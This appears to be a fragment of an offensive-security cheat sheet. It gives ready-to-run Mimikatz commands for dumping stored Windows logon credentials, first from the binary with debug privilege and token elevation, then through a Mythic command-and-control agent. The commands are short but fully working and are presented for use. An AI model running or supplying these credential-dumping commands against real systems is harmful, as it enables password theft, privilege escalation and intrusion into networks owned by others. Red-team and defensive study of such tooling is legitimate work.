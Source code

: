 Used to gather stored credentials

Running from binary context
```
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```

Running from mythic c2 contact
```
mimikatz "sekurlsa::logonpasswords"
```